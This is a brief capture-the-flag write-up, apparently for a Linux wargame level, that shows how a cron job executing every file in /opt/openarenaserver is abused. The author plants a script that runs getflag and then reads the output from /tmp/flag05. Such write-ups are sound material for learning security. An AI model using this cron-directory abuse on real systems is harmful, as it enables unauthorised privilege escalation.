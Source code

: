 The message on login read "You've got new mail".
Looking at /var/mail/level05, you could see a cron rule that executed every 2 minutes.
It executed every file in /opt/openarenaserver and deleted it after.
	echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh
	ls -l /opt/openarenaserver
	script.sh
...wait 2 mins
	cat /tmp/flag05

